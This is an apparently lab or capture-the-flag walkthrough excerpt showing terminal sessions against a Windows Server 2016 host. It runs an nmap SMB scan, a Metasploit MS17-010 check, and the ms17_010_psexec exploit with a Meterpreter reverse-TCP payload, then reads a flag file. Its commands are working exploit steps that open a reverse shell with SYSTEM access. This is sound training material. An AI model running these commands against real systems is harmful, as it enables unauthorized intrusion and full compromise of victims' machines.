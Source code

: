 ```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p445 --script=smb-os-discovery 172.16.1.13 -T5

[SNIP]

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
MAC Address: 00:50:56:94:84:78 (VMware)
Service Info: OS: Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: SHELL********* 📌
|   NetBIOS computer name: SHELL*********\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-16T10:40:36-07:00
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x "use auxiliary/scanner/smb/smb_ms17_010; set RHOSTS 172.16.1.13; run"

[+] 172.16.1.13:445       - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
```

#### Staged MSFconsole Payloads

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set RHOSTS 172.16.1.13; set LHOST ens224; set LPORT 7331; exploit"

[SNIP]

[*] Started reverse TCP handler on 172.16.1.5:7331 
[*] 172.16.1.13:445 - Target OS: Windows Server 2016 Standard 14393
[*] 172.16.1.13:445 - Built a write-what-where primitive...
[+] 172.16.1.13:445 - Overwrite complete... SYSTEM session obtained!
[*] 172.16.1.13:445 - Selecting PowerShell target
[*] 172.16.1.13:445 - Executing the payload...
[+] 172.16.1.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 172.16.1.13
[*] Meterpreter session 1 opened (172.16.1.5:7331 -> 172.16.1.13:49672) at 2025-07-16 13:48:04 -0400

[SNIP]

C:\Windows\system32>type C:\Users\Administrator\Desktop\Skills-flag.txt
One-H********* 📌
```

---
---
